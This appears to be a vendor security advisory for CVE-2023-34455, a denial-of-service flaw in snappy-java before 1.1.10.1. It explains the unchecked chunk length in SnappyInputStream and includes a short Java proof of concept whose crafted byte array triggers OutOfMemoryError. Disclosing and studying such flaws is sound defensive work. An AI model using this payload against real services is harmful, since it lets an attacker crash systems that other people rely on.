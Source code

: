 ```yaml
---
description: CVE-2023-34455, HIGH, snappy-java unchecked chunk length DoS
title: snappy-java unchecked chunk length DoS
date_published: "2023-06-19"
last_updated: "2023-06-19"
xray_id: XRAY-522074
vul_id: CVE-2023-34455
cvss: 7.5
severity: high
discovered_by: Ori Hollander
type: vulnerability

---
```


## Summary

snappy-java unchecked chunk length DoS

## Component

org.xerial.snappy:snappy-java

## Affected versions

(,1.1.10.1)

## Description

snappy-java is a fast compressor/decompressor for Java. Due to use of an unchecked chunk length, an unrecoverable fatal error can occur in versions prior to 1.1.10.1.

The code in the function hasNextChunk in the fileSnappyInputStream.java checks if a given stream has more chunks to read. It does that by attempting to read 4 bytes. If it wasn't possible to read the 4 bytes, the function returns false. Otherwise, if 4 bytes were available, the code treats them as the length of the next chunk.

In the case that the `compressed` variable is null, a byte array is allocated with the size given by the input data. Since the code doesn't test the legality of the `chunkSize` variable, it is possible to pass a negative number (such as 0xFFFFFFFF which is -1), which will cause the code to raise a `java.lang.NegativeArraySizeException` exception. A worse case would happen when passing a huge positive value (such as 0x7FFFFFFF), which would raise the fatal `java.lang.OutOfMemoryError` error.

Version 1.1.10.1 contains a patch for this issue.

## PoC

```java
package org.example;
import org.xerial.snappy.SnappyInputStream;

import java.io.*;

public class Main {

    public static void main(String[] args) throws IOException {
        byte[] data = {-126, 'S', 'N', 'A', 'P', 'P', 'Y', 0, 0, 0, 0, 0, 0, 0, 0, 0,(byte) 0x7f, (byte) 0xff, (byte) 0xff, (byte) 0xff};
        SnappyInputStream in = new SnappyInputStream(new ByteArrayInputStream(data));
        byte[] out = new byte[50];
        try {
            in.read(out);
        }
        catch (Exception ignored) {

        }
    }
}
```



## Vulnerability Mitigations

No mitigations are supplied for this issue

## References

[https://github.com/xerial/snappy-java/blob/05c39b2ca9b5b7b39611529cc302d3d796329611/src/main/java/org/xerial/snappy/SnappyInputStream.java#L388](https://github.com/xerial/snappy-java/blob/05c39b2ca9b5b7b39611529cc302d3d796329611/src/main/java/org/xerial/snappy/SnappyInputStream.java#L388)

[https://github.com/xerial/snappy-java/blob/master/src/main/java/org/xerial/snappy/SnappyInputStream.java](https://github.com/xerial/snappy-java/blob/master/src/main/java/org/xerial/snappy/SnappyInputStream.java)

[https://github.com/xerial/snappy-java/commit/3bf67857fcf70d9eea56eed4af7c925671e8eaea](https://github.com/xerial/snappy-java/commit/3bf67857fcf70d9eea56eed4af7c925671e8eaea)

[https://github.com/xerial/snappy-java/security/advisories/GHSA-qcwq-55hx-v3vh](https://github.com/xerial/snappy-java/security/advisories/GHSA-qcwq-55hx-v3vh)

